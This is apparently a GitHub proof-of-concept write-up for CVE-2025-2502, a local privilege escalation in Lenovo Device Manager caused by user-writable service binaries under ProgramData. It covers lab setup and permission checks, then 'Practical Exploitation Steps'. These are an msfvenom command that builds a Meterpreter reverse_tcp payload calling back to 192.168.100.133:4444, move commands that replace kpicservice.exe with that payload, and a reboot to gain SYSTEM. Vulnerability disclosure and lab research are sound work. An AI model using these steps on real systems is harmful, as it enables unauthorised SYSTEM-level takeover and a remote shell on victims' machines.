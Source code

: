 # CVE-2025-2502 — Lenovo Device Manager: Local Privilege Escalation (POC)

## Vulnerability Overview

While studying local privilege escalation techniques in a Windows lab, I installed Lenovo Device Manager to inspect its installed components. Browsing the ProgramData modules out of curiosity, I noticed oddly permissive ACLs on the module directories — files downloaded by the application were writable by standard users.

That raised a red flag: if a service binary stored in such a directory runs as LocalSystem, and a non-privileged user can alter the file content, a simple replace-and-reboot could make the service execute attacker-controlled code as SYSTEM.

## TL;DR

A permissions flaw in Lenovo Device Manager (all versions observed) grants non-privileged users **F (Full) control** over downloaded tool binaries under `C:\ProgramData\Lenovo\devicecenter\modules\…`. A privileged service (`KPICService_Lenovo`) loads one such binary as LocalSystem; because an unprivileged user can replace that binary on disk, the service will start the replaced binary as SYSTEM after a reboot — enabling local privilege escalation.

![Vulnerability Overview](https://github.com/user-attachments/assets/b93b76b1-f2f2-436f-a5dd-72f4248600af)

## Lab Setup & Reproduction

### 1. Setup Lab Environment

- Host a Windows VM and take a snapshot
- Install Lenovo Device Manager and the AI Picture plugin (vulnerable version)
- Ensure the VM is isolated from production networks

![Lab Setup](https://github.com/user-attachments/assets/9fcdeeaf-3600-4dc7-b646-6e7e8bc78c5a)

### 2. Confirm Service & Permissions

Inspect the service configuration and file permissions:

**Service Location:**

C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe


![Service Configuration](https://github.com/user-attachments/assets/ef41db4c-c148-4512-ad15-a8eb82d14427)

![File Permissions](https://github.com/user-attachments/assets/e33ef6fe-910d-48cc-beab-0f4d2f841f6e)

### 3. Validate Replace-on-Disk Scenario

With the system booted into a state where the service process is locked, confirm an unprivileged account can move or rename the original `kpicservice.exe` file.

<img width="803" height="148" alt="image" src="https://github.com/user-attachments/assets/96afd83f-22ce-4ed9-be10-1acef9a914ac" />

## Practical Exploitation Steps

### Generate Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=4444 -f exe -o kpicservice.exe
```
# Move original file
```bash
move C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe kpicservice.exe.backup
```
# Replace with payload
```bash
move Desktop\kpicservice.exe C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe
```
### Trigger Exploitation
Reboot the device

The service automatically starts the replaced kpicservice.exe (payload)

Obtain SYSTEM privileges

<img width="921" height="677" alt="image" src="https://github.com/user-attachments/assets/56ba6c54-af25-449a-8b2e-aec7add0a96e" />

